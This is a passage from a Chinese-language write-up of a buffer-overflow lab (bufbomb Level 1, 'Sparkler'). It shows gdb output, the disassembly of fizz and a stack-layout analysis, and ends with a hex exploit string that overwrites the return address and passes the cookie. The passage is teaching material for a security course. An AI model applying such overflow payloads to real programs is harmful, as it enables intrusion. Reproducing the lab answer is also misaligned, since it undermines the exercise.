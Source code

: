 利用`gdb`调试工具获得`fizz`的地址：

```shell
(gdb) info address fizz
Symbol "fizz" is at 0x8048b2e in a file compiled without debugging.
```

`fizz`反汇编代码

```assembly
08048b2e <fizz>:
 8048b2e:	55                   	push   %ebp
 8048b2f:	89 e5                	mov    %esp,%ebp
 8048b31:	83 ec 18             	sub    $0x18,%esp
 8048b34:	8b 55 08             	mov    0x8(%ebp),%edx
 8048b37:	a1 04 e1 04 08       	mov    0x804e104,%eax
 8048b3c:	39 c2                	cmp    %eax,%edx
 8048b3e:	75 22                	jne    8048b62 <fizz+0x34>
 8048b40:	b8 cb a5 04 08       	mov    $0x804a5cb,%eax
 8048b45:	8b 55 08             	mov    0x8(%ebp),%edx
 8048b48:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048b4c:	89 04 24             	mov    %eax,(%esp)
 8048b4f:	e8 dc fc ff ff       	call   8048830 <printf@plt>
 8048b54:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048b5b:	e8 ce 08 00 00       	call   804942e <validate>
 8048b60:	eb 14                	jmp    8048b76 <fizz+0x48>
 8048b62:	b8 ec a5 04 08       	mov    $0x804a5ec,%eax
 8048b67:	8b 55 08             	mov    0x8(%ebp),%edx
 8048b6a:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048b6e:	89 04 24             	mov    %eax,(%esp)
 8048b71:	e8 ba fc ff ff       	call   8048830 <printf@plt>
 8048b76:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048b7d:	e8 9e fd ff ff       	call   8048920 <exit@plt>
```

这一题和前一题类似，都是通过注入修改return address处数据，然后使其跳转至指定地址。因此此处不再分析这部分，需要先注入44字节的`00`，然后再注入`fizz`的地址到return address，即`2e 8b 04 08`。接下去可以从`fizz`反汇编代码中分析**传入参数**所在地址。

`buf[0]`的地址为`-0x28(%ebp)`，return address的地址为`0x4(%ebp)`，从8048b3c可以看出，这是对%eax，%edx存的数据进行比较，因此二者对应的是`val`和`cookie`，其中赋给`%edx`的数据是存在固定地址`0x804e104`的，说明应该是`cookie`，因此传入参数`val`的地址是`0x8(%ebp)`。但是在return address之后直接注入cookie`42 c1 a6 20`输入参数却是`0xf7fb3000`。

需要注意，由于进入 `fizz` 是通过 `return`的，需要先把`getbuf`的return address退栈，然后再让`%ebp`进栈，因此`%ebp` 的值会加 `4`，所以 `fizz` 的 `0x8(%ebp)` 对应 `getbuf` 的`0xc(%ebp)`，需要提前注入被跳过的 4 个字节的`00`。

**最终答案**

```
/* Level 1: Sparkler 44 byte 00 + 4 byte fizz address + 4 byte 00 + 4 byte cookie*/
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 2e 8b 04 08 00 00 00 00 42 c1 a6 20
```

## Level 2: Firecracker (15 pts)

> 插入代码，并执行。
> 最终目标：修改全局变量 global_value 的值为 cookie，并且运行bang()
